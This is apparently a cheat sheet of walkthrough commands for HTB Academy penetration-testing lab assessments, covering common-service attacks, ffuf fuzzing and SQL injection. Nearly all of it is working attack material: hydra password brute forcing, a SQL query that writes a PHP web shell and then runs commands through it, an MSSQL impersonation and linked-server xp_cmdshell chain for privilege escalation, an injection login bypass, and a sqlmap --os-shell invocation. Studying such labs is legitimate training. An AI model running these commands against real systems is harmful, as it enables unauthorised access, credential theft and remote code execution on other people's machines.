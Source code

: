 https://github.com/missteek/cpts-quick-references/blob/main/assessments/Password%20Attacks%20Lab%20-%20Hard.md

---
### Attacking Common Services:
---
#### Attacking Common Services - Easy:
```
UserEnum:       smtp-user-enum -M RCPT -U users.txt -D inlanefreight.htb -t $ip
PW Bruteforce:  hydra -l fiona@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt $ip smtp
Login MySQL:    mysql -h $ip -u <user> -p <password>
SQL RCE:        SELECT "<?php if(isset($_GET['cmd'])){ echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>'; } ?>" INTO OUTFILE 'C:/xampp/htdocs/cmd.php';
RCE:            curl http://$ip/cmd.php?cmd=whoami
```
#### Attacking Common Services - Medium:
```
nmap scan:      nmap $ip -p- --open -o nmap.txt | grep '/tcp' | cut -d'/' -f1 | paste -sd, -
ftp anonymous:  ftp $ip 30021
download file:  get mynotes.txt
PW Bruteforce:  hydra -l simon -P mynotes.txt $ip ssh OR hydra -l simon -P mynotes.txt $ip pop3
Login:          ssh simon@$ip
```

#### Attacking Common Services - Hard:
```
-- 1. Get the names of all databases in the SQL Server instance
SELECT name FROM master.dbo.sysdatabases;
GO

-- 2. Switch to the 'TestingDB' database for further queries
USE TestingDB;
GO

-- 3. Get all tables from the 'TestAppDB' database
SELECT table_name FROM TestAppDB.INFORMATION_SCHEMA.TABLES;
GO

-- 4. Find distinct names of principals who have the 'IMPERSONATE' permission
SELECT DISTINCT b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE';
GO

-- 5. Execute as the 'john' login and check the current user and sysadmin membership
EXECUTE AS LOGIN = 'john';
SELECT SYSTEM_USER;  -- Get the current user
SELECT IS_SRVROLEMEMBER('sysadmin');  -- Check if the user is a sysadmin
GO

-- 6. Get information about linked servers and remote status
SELECT srvname, isremote FROM sys.servers;
GO

-- 7. Enable 'show advanced options' on the linked server
EXEC [LOCAL.TEST.LINKED.SRV].master.dbo.sp_configure 'show advanced options', 1;
GO

-- 8. Apply the configuration changes (RECONFIGURE)
EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];
GO

-- 9. Execute a query on the linked server to get server details and check sysadmin role
EXECUTE ('SELECT @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV];
GO

-- 10. Enable 'show advanced options' on the linked server using EXECUTE
EXECUTE ('EXEC sp_configure ''show advanced options'', 1;') AT [LOCAL.TEST.LINKED.SRV];
GO

-- 11. Apply the configuration (RECONFIGURE) on the linked server using EXECUTE
EXECUTE ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];
GO

-- 12. Enable 'xp_cmdshell' on the linked server
EXECUTE ('EXEC sp_configure ''xp_cmdshell'', 1;') AT [LOCAL.TEST.LINKED.SRV];
GO

-- 13. Execute a command on the linked server using 'xp_cmdshell' to interact with the file system
EXECUTE ('xp_cmdshell ''type C:\Users\Administrator\Desktop\flag.txt > C:\Users\fiona\Desktop\xc.txt''') AT [LOCAL.TEST.LINKED.SRV];
GO
```
---
### Attacking Web Applications with Ffuf:
---
#### Skills Assessment - Web Fuzzing:
```
Subdomain Fuzzing:            ffuf -u http://academy.htb:54143 -H "Host:FUZZ.academy.htb:54143" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fw 423
Extension Fuzzing:            ffuf -w /usr/share/seclists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://faculty.academy.htb:54143/indexFUZZ
Page Fuzzing:                 ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt:FUZZ -u http://faculty.academy.htb:54143/FUZZ -recursion -recursion-depth 1 -e .php,.phps,.php7 -fs 287
Parameter Fuzzing (POST):     ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://faculty.academy.htb:49893/courses/linux-security.php7 -X POST -d "FUZZ=key" -H "Content-Type: application/x-www-form-urlencoded" -fs 774
Value Fuzzing (POST):         ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt:FUZZ -u http://faculty.academy.htb:49893/courses/linux-security.php7 -X POST -d "username=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -fs 781
     
```

---
### SQL Injection Fundamentals:
---
#### Skills Assessment :

#### For the login:
``` admin' or '1'='1'-- - ```
#### After the login (copy the the request from the browser as cURL):
``` sqlmap 'http://94.237.62 <SNIP> .php' -H 'Cookie: PHPSESSID=avgi9hf5r3hj0kfuh4573o7rr6' -H 'Upgrade-Insecure-Requests: 1' -H 'Priority: u=0, i' --data-raw 'search=sdsdsds' --data 'search=*' --os-shell --batch
 ```
